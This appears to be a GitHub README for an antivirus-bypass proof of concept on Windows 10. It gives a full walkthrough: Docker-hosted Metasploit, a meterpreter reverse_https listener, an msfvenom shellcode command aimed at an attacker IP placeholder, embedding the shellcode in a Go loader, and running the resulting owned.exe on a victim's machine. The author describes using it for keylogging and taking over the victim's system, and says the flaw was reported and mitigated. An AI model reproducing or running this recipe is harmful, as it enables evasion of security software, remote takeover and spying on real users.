 # Internet-Security-Bypass-Proof-of-Concept
At the time of discovery, this PoC worked on all major Internet Security/AV vendors. Nevertheless, I submitted the report to only one of the vendors (with a none disclosure policy) on 08/10/2020 and the vulnerability has been mitigated. Also, the vulnerability was only tested on Windows 10 x64 machine.


## Prerequisites/Requirements:
- [A Go program to run the shellcode](https://github.com/brimstone/go-shellcode)
- [Metasploit-framework](https://www.metasploit.com/)
- PostgreSQL (optional)
- Docker (optional)
- An IDE

## Write-up:
We need (at least) two docker containers instances running Metasploit-framework, one will be used for our reverse HTTPS payload generation (using msfvenom), the other will be used for our meterpreter listener (using msfconsole). 

If/When we place our payload in the Go code, compile, and run the .exe on the victim's machine, we will get a reverse shell on our attacker's computer. With that, we own the victim's system. We can use the meterpreter directly as a spyware (i.e. taking screenshots, keylogging, ...), run powershell scripts or cmd commands. Basically, we have more control over the victim's machine than the victim itself. 

## Setting up Metasploit console for our listener:
###### Although there are several ways to achieve these steps, I'm only adding them for completeness.

- On our attacker's machine (which is a a linux machine in this case), make directory for our metasploit-framework:
  - $mkdir ${HOME}/.msf4
  - $mkdir ${HOME}/.msf4/database

- Creating a Docker network for our operation:
  - $sudo docker network create --subnet=172.18.0.0/16 metasploit_network

- Lunch PostgreSQL database:
  - sudo docker run --ip 172.18.0.2 --network metasploit_network --name msf_pg_database -v "${HOME}/.msf4/database:/var/lib/postgresql/data" -e POSTGRES_PASSWORD=your_msfdb_password -e POSTGRES_USER=your_msfdb_user -e POSTGRES_DB=msf_database -d -p 5432:5432 --restart unless-stopped postgres:13-alpine

- From Metasploit-framework, lunch "msfconsole":
  - sudo docker run -it --network metasploit_network --ip 172.18.0.13 --name metasploit_framework -e DATABASE_URL='postgres://your_msfdb_user:your_msfdb_password@172.18.0.2:5432/msf_database' -v "${HOME}/.msf4:/home/msf4/.msf4" -p 8444:8444 --restart unless-stopped metasploitframework/metasploit-framework
    ##### The above command will land us in msfconsole, which is where we will set up our listener:
     - msf6> use exploit/multi/handler
     - msf6 exploit(multi/handler> set payload windows/x64/metepreter/reverse_https
     - msf6 exploit(multi/handler> set LPORT 8444
     - msf6 exploit(multi/handler> set LHOST YOUR_ATTACKERS_IP_ADDRESS
     - msf6 exploit(multi/handler> set EXITFUNC thread
     - msf6 exploit(multi/handler> set ExitOnSession false
     - msf6 exploit(multi/handler> exploit -j -s
    ##### Now that our listener is up and running, let's generate our payload.
    
## Steps to payload generation:
- Lunch another instance of metasploit_framework container:
  - $sudo docker exec -it metasploit_framework bash

- Generate our payload (using msfvenom):
  - ./msfvenom -p windows/x64/metepreter/reverse_https LHOST=YOUR_ATTACHERS_IP_ADDRESS LPORT=8444 -b '\x00' -i 2 -f hex
    ##### This will generate a payload/shellcode that we will later use in our gocode. I will not go into details on what each of those commands imply. Please refer to [Metasploit framework site](https://docs.rapid7.com/metasploit/msf-overview/) for comprehensive understanding of the framework.

- Put the shellcode in the [go code](https://github.com/brimstone/go-shellcode) and compile it:
  - $GOOS=windows GOARCH=amd64 go build -o owned.exe 
    ##### Notice that the code used command-line arguments instead. That didn't work at the time of research. The code had to be refactored so that we can embed the payload into the code for the bypass to work. In other words, a little understanding of Go programming language is required.
    
- Move the exe file to our victim's machine and execute:
  - ./owned.exe
    ##### Our listener (on our attacher's machine) should now have access to the victim's machine and ready to control the victim's machine.
    
### Additional Information:

Metasploit is a framework with collection of several exploits.

It is a breeze to lunch Metasploit on docker. I find it complicated to run directly on a Linux machine, and don't bother attempting running it on windows.

We do not need PostgreSQL for our demo, but without a database connection, our msfconsole might misbehave. 

To really understand the underlying concept of this bypass, some low-level understanding of Windows API/syscalls is also recommended. Here, we used the [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect). 

### Reference:
- [Metasploit-framework](https://www.metasploit.com/)
- [The Go programming language](https://golang.org/)
- [A Go program to run the shellcode](https://github.com/brimstone/go-shellcode)
- [PostgreSQL](https://www.postgresql.org/)
- [Docker](https://www.docker.com/)
- [Windows API](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
